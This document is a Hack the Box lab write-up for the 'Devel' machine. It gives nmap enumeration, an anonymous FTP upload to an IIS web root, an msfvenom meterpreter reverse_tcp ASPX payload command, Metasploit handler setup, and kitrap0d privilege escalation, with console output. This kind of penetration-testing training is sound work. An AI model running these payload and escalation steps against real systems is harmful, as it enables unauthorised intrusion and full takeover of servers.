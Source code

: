 ### Introduction
This Hack the Box challenge is pretty straightforward machine, though I found it slightly more difficult than [HTB - Legacy](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Legacy). This challenge highlights the vulnerabilities associated with using the default settings on some configurations. Knowing enumeration methods and tools, as well as some basic knowledge of Windows is needed for this challenge. Doing this, I continued to learn how to use metasploit, exploiting default credentials, and a priviledge escalation exploit for Windows.

### Enumeration
Using zenmap, we get the following result:

![devel](https://user-images.githubusercontent.com/41026969/52419510-3ef66a00-2abe-11e9-9120-d5dbd65426ec.PNG)

Similarly, we can use command line nmap to view information about the machine. In this case the command I use is ```nmap -sC -sV -oA devel 10.10.10.5```. To quickly explain what's after the ```nmap```: ```-sC``` will preform the default scrips for scanning a network (note: this scan can be considered intrusive, so use on networks that you have permission on only), ```-sV``` runs a version scan, ```-oA [name]``` will store the output that you can read, in this case, we named the file devel, to read the output that nmap found we can simple do ```cat devel.nmap```. Here's the output that doing the scan does:

![devel](https://user-images.githubusercontent.com/41026969/52517060-1b890780-2c03-11e9-95c2-abcc419c7664.png)

We see that port 21 and port 80 are both open. I did some researching on what these ports do: port 21 is used for FTP which stands for file transfer protocol. ```FTP servers open their machine's port 21 and listen for incoming client connections. FTP clients connect to port 21 of remote FTP servers to initiate file transfer operations.``` Port 80 is assigned to HTTP, it's the port that the computer sends/receives from a web server; also used to send/receive HTML pages or data. 

Pulling up the webpage of the IP address (10.10.10.5), we get the default IIS webpage:

![devel](https://user-images.githubusercontent.com/41026969/52517115-03fe4e80-2c04-11e9-8e4b-c300b8c66908.png)

From the enumeration methods above, we see that ```ftp``` (port 21) is OPEN and that ```Anonymous login allowed```. This means we can get access through logging in as ```Anonymous``` and it'll accept any password. Also we find out that the server runs on Microsoft-IIS version 7.5

So playing around with the FTP server, I first make an ```.html``` file by doing ```echo WillThisGoThrough? > test.html```. Now since this server DOES allow anonymous access, we can ```ftp 10.10.10.5``` and login as user ```anonymous``` and type in any password and it'll give us a shell. I then upload the ```test.html``` file and we can see that the server does indeed receive and that we can access it. This can be our point of exploitation. Here it is shown below:

![devel](https://user-images.githubusercontent.com/41026969/52517203-a8cd5b80-2c05-11e9-9633-31973581765e.png)

So to see if the message ```WillThisGoThrough?``` went through, we can try and access it by going to the webpage ```10.10.10.5/test.html```. And we see that it has indeed went through:

![devel](https://user-images.githubusercontent.com/41026969/52517212-de724480-2c05-11e9-90a4-1fa6338529c4.png)

So since this is an IIS server, it does execute code, usually asp or aspx (basically source code/scripts that are used to generate how the webage should be opened and displayed). Since we know from enumeration that this machine is likely running on Windows 2008, it's likely that it's running aspx which is .NET base (asp is used mainly for older, early 2000s OS).

### Exploitation 
With what we know, we can start using ```msfvenom``` to create us a payload. Doing ```msfvenom -h``` will bring up the help screen that will show the syntax and options used.

So to list all the windows exploits we can do:
```
msfvenom --list payload | grep windows
```
note: this may take a minute to complete. After it is done, it will create a list of all the types of payloads that can be used. For this challenge, I want to use a metrepeter reverse tcp, as if I use an 64 bit exploit, it WILL NOT work on a 32 bit machine (we do not know if this machine is 32 or 64 bit, so using a reverse tcp shell is the safest). 

Scrolling up a bit, we see something we can use: ```windows/meterpreter/reverse_tcp```

Looking back at the help screen of msfvenom (```msfvenom -h```) I see the different options I can use to create the payload. This is how the command looks like:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local IP] LPORT=[local port] -f aspx -o develExploit.aspx 
```
Then we ftp back into the server and upload the listener:

![devel](https://user-images.githubusercontent.com/41026969/52536905-6ce1e580-2d2e-11e9-9cf8-f5c9d6a5ab41.png)

So now we can use metasploit (```msfconsole```) to start. First I do ```use exploit/multi/handler``` then set the payload to the same thing we used in msfvenom: ```msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp```. Then I set the LHOST to ```tun0```. Then I ```run```. Going back to the IP website of the machine and using the exploit we created (```http://10.10.10.5/develExploit.aspx```) it will create a metrepreter session.

Once we get a session, we can do ```sysinfo``` to get more information about the machine. Furthermore, we can use ```shell``` to get a shell (though not admin). Here's what it looks like:

![devel](https://user-images.githubusercontent.com/41026969/52537080-7f5d1e80-2d30-11e9-804f-9381c698ec58.png)
![devel](https://user-images.githubusercontent.com/41026969/52537094-a6b3eb80-2d30-11e9-8890-c3fdcd8c903b.png)

Backing out by exiting the meterpreter session (use command ```background```), we can use ```msf > post/multi/recon/local_exploit_suggester``` to bring up a list of suggested exploits based on the machine we just accessed. Here's how it'll look like:
```
meterpreter > background
[*] Backgrounding session 1...

msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 39 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > 
```

For this machine I used ```exploit/windows/local/ms10_015_kitrap0d```. So here's the commands I did:
```msf exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d```

And now since the LHOST and LPORT changed to something different, I changed it back to the correct LHOST and LPORT (same ones I used for the reverse TCP listener in msfvenom):
```
msf exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms10_015_kitrap0d) > set LHOST [IP]
LHOST => [IP]
msf exploit(windows/local/ms10_015_kitrap0d) > set LPORT [Port]
LPORT => [Port]
msf exploit(windows/local/ms10_015_kitrap0d) > run
```
Doing so, we get access to the machine!:

![devel](https://user-images.githubusercontent.com/41026969/52537602-8850ee80-2d36-11e9-9d3e-c96c19d28940.png)

Directory to root flag: ```c:\Users\Administrator\Desktop>root.txt.txt```

Directory to user flag: ```c:\Users\babis\Desktop>user.txt.txt```
